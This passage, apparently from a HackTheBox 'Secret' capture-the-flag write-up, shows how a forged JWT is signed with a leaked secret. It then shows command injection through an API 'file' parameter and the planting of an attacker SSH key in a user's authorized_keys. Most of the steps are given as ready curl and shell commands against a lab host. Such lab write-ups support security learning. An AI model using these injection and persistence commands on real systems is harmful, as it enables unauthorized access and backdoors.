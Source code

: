 And we see a secret! Now we can use this so sign the JWT-token. The contents of the token will be ``{"name":"theadmin"}``.
I used an online tool to generate the JWT-token and this is my result *eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s*

![](/assets/CTFs/HTB/Secret/jwt-generate.png)

Now if we set the `auth-token` header to our generated JWT-token and go to `/api/priv` it shows us that we are the  `"theadmin"`.

```bash
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s' 'http://10.10.11.120/api/priv'
```

## Gaining user

Now that we are the required user we can start exploiting the API. Adding any command to the end of the `?file` parameter will run it. Lets try it with `id`.

```bash
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s' 'http://10.10.11.120/api/logs?file=.env;id'
```

We get command output. `"ab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"`.
Now we can try getting a reverseshell. After playing around a bit to get one working I ended up generating and uploading a sshkey.

```bash
ssh-keygen -t rsa -b 4096 -C 'get@hacked' -f dasith -P ''
```

From the output from `id` we know that the username is `dasith`. Our attackplan is as follows.
1. Make the `.ssh` folder in the home directory if it doesn't exist. *(`mkdir -p /home/dasith/.ssh`)*
2. Write our public key to the `authorized_keys` *(`echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys`)*

First lets store our public key contents into a bash variable `$PUBLIC_KEY`. This will be easier then copying it into the request.

```bash
export PUBLIC_KEY=$(cat dasith.pub)
```

Then running the curl command that "uploads" our public key.

```bash
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s' -G --data-urlencode "file=.env;mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" http://10.10.11.120/api/logs
```
This will be our final command.
What does it do?

- Print Headers
- Use GET
- Send the parameters inside of the query
- Send this command `mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys` where `$PUBLIC_KEY` is replaced with the contents that we already saved to it.
